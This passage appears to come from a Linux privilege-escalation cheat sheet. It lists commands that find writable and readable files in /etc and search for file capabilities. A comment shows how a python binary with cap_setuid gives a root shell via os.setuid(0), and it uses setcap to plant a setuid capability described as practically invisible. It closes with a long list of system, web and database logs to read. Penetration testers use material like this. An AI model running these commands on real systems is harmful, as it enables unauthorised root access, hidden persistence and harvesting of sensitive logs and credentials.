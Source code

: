 ```bash
ls -aRl /etc/ | awk '$1 ~ /w.$/' 2>/dev/null | grep -vE "^l|^d"


find /etc/ -readable -type f 2>/dev/null               # Anyone
find /etc/ -readable -type f -maxdepth 1 2>/dev/null   # Anyone
```

---

### 2.9. Capabilities - setcap / getcap / setuid

```bash
getcap -r / 2>/dev/null               # python with that can easily convert user to root.
									  # import os; os.setuid(0), os.system("/bin/bash")
setcap cap_setuid+ep /path/to/binary  # set uid for scale faster praticaly invisible!
```

---

### 2.10. Logs...

```bash
ls -alh /var/log
ls -alh /var/mail
ls -alh /var/spool
ls -alh /var/spool/lpd
ls -alh /var/lib/pgsql
ls -alh /var/lib/mysql
cat /var/lib/dhcp3/dhclient.leases

ls -alhR /var/www/
ls -alhR /srv/www/htdocs/
ls -alhR /usr/local/www/apache22/data/
ls -alhR /opt/lampp/htdocs/
ls -alhR /var/www/html/

cat /etc/httpd/logs/access.log
cat /etc/httpd/logs/error.log
cat /var/log/apache2/access.log
cat /var/log/apache2/error.log
cat /var/log/apache/access.log
cat /var/log/auth.log
cat /var/log/chttp.log
cat /var/log/cups/error_log
cat /var/log/dpkg.log
cat /var/log/faillog
cat /var/log/httpd/access.log
cat /var/log/httpd/error.log
cat /var/log/lastlog
cat /var/log/lighttpd/access.log
cat /var/log/lighttpd/error.log
cat /var/log/lighttpd/lighttpd.access.log
cat /var/log/lighttpd/lighttpd.error.log
cat /var/log/messages
cat /var/log/secure
cat /var/log/syslog
cat /var/log/wtmp
cat /var/log/xferlog
cat /var/log/yum.log
cat /var/run/utmp
cat /var/webmin/miniserv.log
cat /var/www/logs/access_log
cat /var/www/logs/access.log
ls -alh /var/lib/dhcp3/
```